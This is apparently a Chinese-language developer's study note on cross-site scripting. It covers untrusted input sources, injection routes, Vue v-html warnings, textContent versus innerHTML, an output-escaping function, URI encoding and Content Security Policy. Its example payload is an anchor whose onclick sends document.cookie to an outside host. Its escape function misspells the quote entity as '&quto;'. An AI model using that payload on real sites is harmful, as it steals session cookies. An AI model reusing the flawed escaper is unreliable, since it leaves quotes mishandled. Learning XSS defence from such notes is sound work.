 https://tech.meituan.com/2018/09/27/fe-security.html

## Cross-Site Scripting XSS

跨站脚本 (Cross-Site Scripting, XSS): 一种代码注入攻击, 为了与 CSS 区分所以被称作 XSS. 



XSS的本质是：恶意代码未经过过滤，与网站的正常代码混在一起，利用浏览器对于内容的信任，执行了恶意代码

不可信任的信息

- 用户的UGC信息 （User Gnerate Content）
- 第三方的链接
- URL参数



例子🌰

```html
<a href="#" onclick=`window.location=http://abc.comcookie=${docuemnt.cookie}`>领取红包</a>
```



要素

1. 攻击者提交恶意代码。
2. 浏览器执行恶意代码。



有哪些注入的方法？

- script
- 拼接的数据超出了原本的限制🚫
- 在标签的 href、src 等属性中，包含 `javascript:` 等可执行代码。



所以不能讲拿到的string直接作为html插入

> Vue v-html
>
> <p>Using mustaches: {{ rawHtml }}</p> <p>Using v-html directive: <span v-html="rawHtml"></span></p>
>
> 你的站点上动态渲染的任意 HTML 可能会非常危险，因为它很容易导致 [XSS 攻击](https://en.wikipedia.org/wiki/Cross-site_scripting)。请只对可信内容使用 HTML 插值，**绝不要**对用户提供的内容使用插值。



关于一些浏览器API

### [textContent Differences from innerHTML](https://developer.mozilla.org/en-US/docs/Web/API/Node/textContent#differences_from_innerhtml)

[`Element.innerHTML`](https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML) returns HTML, as its name indicates. Sometimes people use `innerHTML` to retrieve or write text inside an element, but `textContent` has better performance because its value is not parsed as HTML.

Moreover, using `textContent` can prevent [XSS attacks](https://developer.mozilla.org/en-US/docs/Glossary/Cross-site_scripting).

Don't get confused by the differences between `Node.textContent` and [`HTMLElement.innerText`](https://developer.mozilla.org/en-US/docs/Web/API/HTMLElement/innerText). Although the names seem similar, there are important differences:

- `textContent` gets the content of *all* elements, including [``](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/script) and [``](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/style) elements. In contrast, `innerText` only shows “human-readable” elements.
- `textContent`returns every element in the node. In contrast,`innerText`is aware of styling and won’t return the text of “hidden” elements.
  - Moreover, since `innerText` takes CSS styles into account, reading the value of `innerText` triggers a [reflow](https://developer.mozilla.org/en-US/docs/Glossary/Reflow) to ensure up-to-date computed styles. (Reflows can be computationally expensive, and thus should be avoided when possible.)



## 如何防御？

转义输入输出的内容，对于引号，尖括号，斜杠进行转义

```js
function escape(str) {
  str = str.replace(/&/g, '&amp;')
  str = str.replace(/</g, '&lt;')
  str = str.replace(/>/g, '&gt;')
  str = str.replace(/"/g, '&quto;')
  str = str.replace(/'/g, '&#39;')
  str = str.replace(/`/g, '&#96;')
  str = str.replace(/\//g, '&#x2F;')
  return str
}
```

富文本考虑白名单转义



```js
var set1 = ";,/?:@&=+$";  // Reserved Characters
var set2 = "-_.!~*'()";   // Unescaped Characters
var set3 = "#";           // Number Sign
var set4 = "ABC abc 123"; // Alphanumeric Characters + Space

console.log(encodeURI(set1)); // ;,/?:@&=+$
console.log(encodeURI(set2)); // -_.!~*'()
console.log(encodeURI(set3)); // #
console.log(encodeURI(set4)); // ABC%20abc%20123 (the space gets encoded as %20)

console.log(encodeURIComponent(set1)); // %3B%2C%2F%3F%3A%40%26%3D%2B%24
console.log(encodeURIComponent(set2)); // -_.!~*'()
console.log(encodeURIComponent(set3)); // %23
console.log(encodeURIComponent(set4)); // ABC%20abc%20123 (the space gets encoded as %20)
```



### 还有个方案是[CSP](https://content-security-policy.com/) Content Security Policy

The Content-Security-Policy header allows you to restrict how resources such as JavaScript, CSS, or pretty much anything that the browser loads.

To enable CSP, you need to configure your web server to return the [`Content-Security-Policy`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy) HTTP header. 

Alternatively, the [``](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/meta) element can be used to configure a policy, for example: `<meta http-equiv="Content-Security-Policy" content="default-src 'self'; img-src https://*; child-src 'none';">`

- 禁止内联脚本执行（规则较严格，目前发现 GitHub 使用）。

